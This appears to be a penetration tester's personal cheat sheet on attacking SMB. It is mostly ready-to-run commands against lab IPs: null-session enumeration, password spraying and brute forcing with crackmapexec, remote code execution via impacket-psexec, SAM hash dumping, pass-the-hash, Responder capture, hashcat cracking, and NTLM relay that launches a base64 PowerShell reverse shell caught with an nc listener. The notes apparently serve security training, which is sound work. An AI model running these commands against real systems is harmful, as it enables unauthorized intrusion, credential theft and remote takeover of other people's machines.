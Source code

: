 >Server Message Block (SMB) is a communication protocol created for providing shared access to files and printers across nodes on a network. Initially, it was designed to run on top of NetBIOS over TCP/IP (NBT) using TCP port `139` and UDP ports `137` and `138`. However, with Windows 2000, Microsoft added the option to run SMB directly over TCP/IP on port `445` without the extra NetBIOS layer. Nowadays, modern Windows operating systems use SMB over TCP but still support the NetBIOS implementation as a failover.

>Samba is a Unix/Linux-based open-source implementation of the SMB protocol. It also allows Linux/Unix servers and Windows clients to use the same SMB services.

---


## Enumeration


```
$ sudo nmap 10.129.14.128 -sV -sC -p139,445
```

#nmap #smb 


## Misconfigurations

SMB can be configured not to require authentication, which is often called a `null session`. Instead, we can log in to a system with no username or password.
#### Anonymous Authentication

>If we find an SMB server that does not require a username and password or find valid credentials, we can get a list of shares, usernames, groups, permissions, policies, services, etc. Most tools that interact with SMB allow null session connectivity, including `smbclient`, `smbmap`, `rpcclient`, or `enum4linux`. Let's explore how we can interact with file shares and RPC using null authentication.

#### File Share

```
$ smbclient -N -L //10.129.14.128
```

```
$ smbmap -H 10.129.14.128
```

		Using `smbmap` with the `-r` or `-R` (recursive) option, one can browse the directories:

```
$ smbmap -H 10.129.14.128 -r notes
```

```
$ smbmap -H 10.129.14.128 --download "notes\note.txt"
```

```
$ smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"
```

#smb #smbmap 
#### Remote Procedure Call (RPC)

>We can use the `rpcclient` tool with a null session to enumerate a workstation or Domain Controller.

```
$ rpcclient -U'%' 10.10.110.17
```
#rpcclient #anonymous

>`Enum4linux` is another utility that supports null sessions, and it utilizes `nmblookup`, `net`, `rpcclient`, and `smbclient` to automate some common enumeration from SMB targets such as:


```
$ ./enum4linux-ng.py 10.10.11.45 -A -C
```

#enum4linux



## Protocol Specifics Attacks

>If a null session is not enabled, we will need credentials to interact with the SMB protocol. Two common ways to obtain credentials are [brute forcing](https://en.wikipedia.org/wiki/Brute-force_attack) and [password spraying](https://owasp.org/www-community/attacks/Password_Spraying_Attack).


```
$ crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth
```
#crackmapexec #smb #passwordspray

`--continue-on-success` 
`--local-auth` 

```
$ crackmapexec smb 10.10.110.17 -u user.list -p password.list --local-auth
```
#crackmapexec #smb #bruteforce 
#### SMB
>Linux and Windows SMB servers provide different attack paths. Usually, we will only get access to the file system, abuse privileges, or exploit known vulnerabilities in a Linux environment, as we will discuss later in this section. However, in Windows, the attack surface is more significant.

#### Remote Code Execution (RCE)

>Sysinternals featured several freeware tools to administer and monitor computers running Microsoft Windows. The software can now be found on the [Microsoft website](https://docs.microsoft.com/en-us/sysinternals/). One of those freeware tools to administer remote systems is PsExec.

>[PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) is a tool that lets us execute processes on other systems, complete with full interactivity for console applications, without having to install client software manually. It works because it has a Windows service image inside of its executable. It takes this service and deploys it to the admin$ share (by default) on the remote machine. It then uses the DCE/RPC interface over SMB to access the Windows Service Control Manager API. Next, it starts the PSExec service on the remote machine. The PSExec service then creates a [named pipe](https://docs.microsoft.com/en-us/windows/win32/ipc/named-pipes) that can send commands to the system.


#### Impacket PsExec

>To use `impacket-psexec`, we need to provide the domain/username, the password, and the IP address of our target machine. For more detailed information we can use impacket help:

```
$ impacket-psexec administrator:'Password123!'@10.10.110.17
```
#impacket #impacket_psexec #psexec #smb 

#### CrackMapExec
```
$ crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```
#crackmapexec #smb  

**Note:** If the`--exec-method` is not defined, CrackMapExec will try to execute the atexec method, if it fails you can try to specify the `--exec-method` smbexec.

#### Enumerating Logged-on Users

>Imagine we are in a network with multiple machines. Some of them share the same local administrator account. In this case, we could use `CrackMapExec` to enumerate logged-on users on all machines within the same network `10.10.110.17/24`, which speeds up our enumeration process.

```
$ crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```
#crackmapexec #smb 
#### Extract Hashes from SAM Database

>The Security Account Manager (SAM) is a database file that stores users' passwords. It can be used to authenticate local and remote users. If we get administrative privileges on a machine, we can extract the SAM database hashes for different purposes:


		Extract Hashes from SAM Database
```
$ crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```

		Pass-the-Hash (PtH)
```
$ crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

		Forced Authentication Attacks
```
$ responder -I <interface name>
```

		  Forced Authentication Attacks
```shell-session
$ hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

		Forced Authentication Attacks
```
$ cat /etc/responder/Responder.conf | grep 'SMB ='
```

		Forced Authentication Attacks
```
$ impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
```
#crackmapexec #smb #hashcat #smb2support #grep #pth #sam #responder #impacket-ntlmrelayx

>We can create a PowerShell reverse shell using [https://www.revshells.com/](https://www.revshells.com/), set our machine IP address, port, and the option Powershell #3 (Base64).

```
$ impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e JABjAGw....'
```

```
$ nc -lvnp 9001
```

#impacket-ntlmrelayx #nc #powershell 
